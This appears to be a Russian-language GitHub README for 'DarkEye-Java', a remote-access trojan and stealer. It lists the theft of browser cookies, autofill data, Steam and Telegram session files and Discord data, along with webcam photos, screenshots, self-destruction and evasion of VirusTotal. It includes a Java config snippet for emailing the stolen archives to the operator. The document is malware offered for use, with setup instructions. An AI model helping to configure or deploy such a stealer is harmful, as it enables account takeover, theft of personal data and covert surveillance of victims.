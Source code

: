 # DarkEye-Java
Rat/Stealer

## Функции
Отправка файлов происходит через почту (.zip)

- [Yandex, Chrome, Opera] Cookie, Auto-Fill, leveldb grabber
- Steam: config, ssfn grabber
- Telegram: tdata
- Discord: Cookie, leveldb
- Скрин экрана
- Фото с вебкамеры (имейте в виду что загарается лампа)
- Самоуничтожение
- VirusTotal undetected

## Конфиг
В классе Config нужно вписать свои данные почты Отправителя и Получателя.
В отправителя нужно выбрать какая почта (EMailMethod)
```Java
public static EMailData FROM_DATA = new EMailData("xxxxx@yandex.ru", "password", EMailMethod.YANDEX);
public static EMailData TO_DATA = new EMailData("xxxxx@gmail.com");
```

#### Настройка email
##### Обьязательно*
В настройках почты отправителя включите:
Разрешить доступ к почтовому ящику с помощью почтовых клиентов IMAP

[C# DarkEye](https://github.com/GishReloaded/DarkEye)